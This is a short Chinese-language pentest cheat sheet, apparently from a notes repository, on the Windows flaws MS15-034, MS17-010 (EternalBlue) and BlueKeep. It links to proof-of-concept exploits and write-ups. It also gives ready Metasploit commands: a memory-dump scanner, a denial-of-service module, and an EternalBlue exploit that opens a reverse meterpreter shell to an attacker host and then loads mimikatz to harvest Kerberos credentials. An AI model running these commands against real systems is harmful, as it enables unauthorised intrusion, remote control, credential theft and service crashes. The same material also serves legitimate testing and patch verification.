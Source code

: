**MS15-034 & CVE-2015-1635**
- POC | Payload | exp
    - [MS15-034 Checker](https://pastebin.com/ypURDPc4)

- 文章
    - [MS15-034/CVE-2015-1635 HTTP远程代码执行漏洞分析](http://blogs.360.cn/post/cve_2015_6135_http_rce_analysis.html)

- MSF 模块
    ```bash
    use auxiliary/scanner/http/ms15_034_http_sys_memory_dump    # 读取服务器内存数据
    use auxiliary/dos/http/ms15_034_ulonglongadd    # 进行 dos 攻击
    ```

**MS17-010**
- MSF 模块
    ```bash
    # 发现,检测
    use auxiliary/scanner/smb/smb_ms17_010
    set rhosts <ip>
    run

    # 使用 payload 连上去
    use exploit/windows/smb/ms17_010_eternalblue
    set payload windows/x64/meterpreter/reverse_tcp
    set lhost <ip>      # 设置回弹地址
    set rhosts <ip>
    run

    # msf 下加载 mimikatz 模块
    load mimikatz
    kerberos
    ```

- 修复工具
    - ["永恒之蓝"勒索蠕虫漏洞修复工具](https://www.qianxin.com/other/wannacryfix)

**bluekeep & CVE-2019-0708**
- 文章
    - [RDP Stands for "Really DO Patch!" – Understanding the Wormable RDP Vulnerability CVE-2019-0708](https://securingtomorrow.mcafee.com/other-blogs/mcafee-labs/rdp-stands-for-really-do-patch-understanding-the-wormable-rdp-vulnerability-cve-2019-0708/)
    - [worawit/CVE-2019-0708](https://github.com/worawit/CVE-2019-0708/blob/master/NOTE.md)

- POC | Payload | exp
    - [zerosum0x0/CVE-2019-0708](https://github.com/zerosum0x0/CVE-2019-0708)
    - [robertdavidgraham/rdpscan](https://github.com/robertdavidgraham/rdpscan)
    - [Ekultek/BlueKeep](https://github.com/Ekultek/BlueKeep)
    - [mekhalleh/cve-2019-0708](https://github.com/mekhalleh/cve-2019-0708) (实测、蓝屏)
    - [Cyb0r9/ispy](https://github.com/Cyb0r9/ispy)
    - [k8gege/CVE-2019-0708](https://github.com/k8gege/CVE-2019-0708) - 批量检测工具
